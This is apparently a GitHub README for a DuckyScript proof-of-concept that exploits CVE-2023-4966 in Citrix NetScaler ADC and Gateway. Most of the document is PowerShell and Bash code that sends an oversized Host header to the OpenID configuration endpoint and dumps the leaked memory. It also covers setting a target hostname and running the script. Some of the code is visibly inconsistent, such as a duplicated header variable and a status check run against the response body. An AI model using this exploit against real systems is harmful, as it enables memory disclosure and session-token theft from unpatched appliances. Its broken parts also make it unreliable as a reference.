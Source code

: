 # Exploit Citrix NetScaler ADC and Gateway through CVE-2023-4966

This payload sends an HTTP request to a remote server using the `curl` command. If the request succeeds, it means the exploit was successful. Conversely, if the request fails, it indicates that the target has resisted the attack.

This payload is a Proof of Concept (POC) based on DuckyScript and is intended for use only in authorized penetration testing. CVE-2023-4966 [[1](#sources)] has been resolved, and I have decided to release this payload only now to minimize the risk of it being used inappropriately. Please use this payload exclusively when you are fully aware of what you are doing and have obtained explicit authorization from the target.

**Category**: incident-response

## Index

- [Exploit Citrix NetScaler ADC and Gateway through CVE-2023-4966](#exploit-citrix-netscaler-adc-and-gateway-through-cve-2023-4966)
	- [CVE-2023-4966](#cve-2023-4966)
		- [Summary](#summary)
		- [Impacted Products](#impacted-products)
  - [Settings](#settings)
	- [DuckyScript Extensions Used](#duckyScript-extensions-used)
	- [Payload Description Windows](#payload-description-windows)
	- [Payload Description Linux](#payload-description-linux)
  - [Script.sh](#script-sh)
	- [Sources](#sources)
	- [Credits](#credits)

## CVE-2023-4966

Multiple vulnerabilities have been discovered in NetScaler ADC (formerly Citrix ADC) and NetScaler Gateway (formerly Citrix Gateway).

### Summary

NetScaler ADC and NetScaler Gateway contain unauthenticated buffer-related vulnerabilities mentioned below 

### Impacted Products

The following supported versions of NetScaler ADC and NetScaler Gateway are affected by the vulnerabilities: 

    - NetScaler ADC and NetScaler Gateway 14.1 before 14.1-8.50
    - NetScaler ADC and NetScaler Gateway 13.1 before 13.1-49.15
    - NetScaler ADC and NetScaler Gateway 13.0 before 13.0-92.19
    - NetScaler ADC 13.1-FIPS before 13.1-37.164
    - NetScaler ADC 12.1-FIPS before 12.1-55.300
    - NetScaler ADC 12.1-NDcPP before 12.1-55.300

***Note**: NetScaler ADC and NetScaler Gateway version 12.1 is now End-of-Life (EOL) and is vulnerable.*

This bulletin only applies to customer-managed NetScaler ADC and NetScaler Gateway products. Customers using Citrix-managed cloud services or Citrix-managed Adaptive Authentication do not need to take any action.

![](./assets/1.png)

***Source**: The information was acquired from the official website of [support.citrix.com](#sources).*

## Settings

The sole configuration parameter that requires modification is the hostname, which represents the IP address (without protocol) of the target Citrix ADC / Gateway machine, such as 192.168.1.200. To configure this setting, you need to edit the "payload.txt" file to specify the desired address.

```DuckyScript
DEFINE #HOSTNAME 192.168.1.200
```

## Payload Description Windows

In this line, a variable named `$header_value` is created, containing a string of 24576 'a' characters. This variable represents the value to be used in the HTTP header.

```powershell
$header_value = 'a' * 24576
```

Here, all newline characters ("\n") are removed from the string stored in `$header_value`. This is done to ensure that the string doesn't contain any line break characters.

```powershell
$header_value = $header_value -replace "\n", ""
```

A variable `$headers` is created, which holds an HTTP header formatted as a string. This header will be used in the subsequent HTTP request.

```powershell
$headers = "-H 'Host:$header_value'"
```

Here, a variable `$headers` is created as a hashtable containing the HTTP header. In this case, only the "Host" header is used, with the value from `$header_value`.

```powershell
$headers = @{ 'Host' = $header_value }
```

This line defines the variable `$uri`, which contains the target URL for the HTTP request. Note that "#HOSTNAME" is a DuckyScript variable that should be replaced with the actual value before executing the script (see the [Settings](#settings) section).

```powershell
$uri = "https://#HOSTNAME/oauth/idp/.well-known/openid-configuration"
```

Here, the HTTP request to the specified URL is executed using the GET method and with the headers defined in the `$headers` variable. The result of the request is stored in the `$response` variable.

```powershell
$response = Invoke-RestMethod -Uri $uri -Headers $headers -Method GET -TimeoutSec 10
```

This `if` statement checks if the first three characters of the HTTP response in the `$response` variable are equal to "200," indicating a successful HTTP response.

```powershell
if ($response.Substring(0, 3) -eq "200")
```

If the preceding condition is true, some messages are printed to indicate the beginning of the output.

```powershell
Write-Host "--- Dumped memory ---"
$response.Substring(131050)
Write-Host "The #HOSTNAME is vulnerable!"
Write-Host "--- End ---"
```

If the initial condition of the `if` statement is not met, a message is printed, indicating that the machine is not vulnerable.

```powershell
Write-Host "Could not dump memory"
```

## Payload Description Linux

This line sets the `header_value` variable to a string containing 24,576 'a' characters. It uses the `yes` command to repeatedly output 'a' and `head` to limit it to 24,576 lines. The `tr` command is used to remove any newline characters, resulting in a long string of 'a's.

```bash
header_value=$(yes a | head -n 24576 | tr -d '\n')
```

Here, the `headers` variable is constructed with the `-H` option for the cURL command. It sets the 'Host' header to the previously generated `header_value`.

```bash
headers="-H 'Host:$header_value'"
```
This line uses cURL to send a request to the specified URL with the constructed `headers`. The `-s` flag suppresses progress meter and error messages, while the `-k` flag allows cURL to perform an insecure SSL connection. The `--connect-timeout 10` flag sets a connection timeout of 10 seconds. The response is stored in the `response` variable.

```bash
response=$(curl -s -k -H "$headers" "https://$hostname/oauth/idp/.well-known/openid-configuration" --connect-timeout 10)
```

In this block, it checks if the exit status of the cURL command is 0 (indicating a successful request) and if the first three characters of the response are "200" (HTTP success code). If both conditions are met, it prints `--- Dumped memory ---`, followed by a portion of the response starting from character 131,051, and then indicates that the hostname is vulnerable. If the conditions are not met, it prints `Could not dump memory`.

```bash
if [ $? -eq 0 ] && [ "$(echo $response | cut -c 1-3)" == "200" ]; then
    echo "--- Dumped memory ---"
    echo "$response" | cut -c 131051-
    echo "The #HOSTNAME is vulnerable!"
    echo "---      End      ---"
else
    echo "Could not dump memory"
fi
```

## Script sh

The script.sh script accepts one parameter, which should be the target hostname without the application of a protocol (e.g., `192.168.1.200`). It uses this parameter to perform a specific action in the exploit.

Example Execution:

```shell
./script.sh 192.168.1.200
```

Before running the script, you might need to grant execute permissions to the file, as mentioned. You can do this with the following command:

```shell
sudo chmod +x script.sh
```

After assigning execute permissions, the above command allows the user to run the script without having to specify the sh command before the script's name.

## Sources

- [1] Official source of information acquisition: https://support.citrix.com/article/CTX579459/netscaler-adc-and-netscaler-gateway-security-bulletin-for-cve20234966-and-cve20234967

## Credits

<h2 align="center"> Aleff</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>
